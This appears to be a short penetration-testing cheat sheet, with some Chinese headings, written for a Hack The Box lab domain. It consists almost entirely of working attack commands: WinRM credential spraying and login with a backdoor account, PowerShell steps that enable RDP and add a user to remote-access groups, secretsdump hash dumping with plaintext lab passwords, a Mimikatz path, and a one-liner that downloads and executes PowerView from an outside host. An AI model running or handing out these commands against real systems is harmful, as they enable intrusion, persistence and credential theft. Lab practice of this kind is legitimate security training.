 #  crackmapexec

`crackmapexec winrm 192.168.110.0/24 -u 'PAINTERS.HTB\backdoor_user' -p 'P@ssw0rd123!'`


# WinRM

`evil-winrm -i 192.168.110.53 -u backdoor_user -p 'P@ssw0rd123!'`


# RDP

#### 1. 启用 RDP 服务
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0

----

#### 2. 放行防火墙中的 RDP 端口（3389）
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

----

#### 3.  确认 RDP 服务已经启用
Get-Service -Name TermService

----

#### 4. 添加用户到 Remote Desktop Users 组
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "riley"

----

xfreerdp /u:riley /p:P@ssw0rd /d:painters.htb /v:192.168.110.56 /cert:ignore

----

# Hash Dump

secretsdump.py painters.htb/web_svc:'!QAZ1qaz'@192.168.110.52

`/usr/share/windows-resources/powersploit/Exfiltration/Invoke-Mimikatz.ps1`

# PowerShell remote script

`iex (iwr http://10.10.14.3/PowerView.ps1 -UseBasicParsing)`


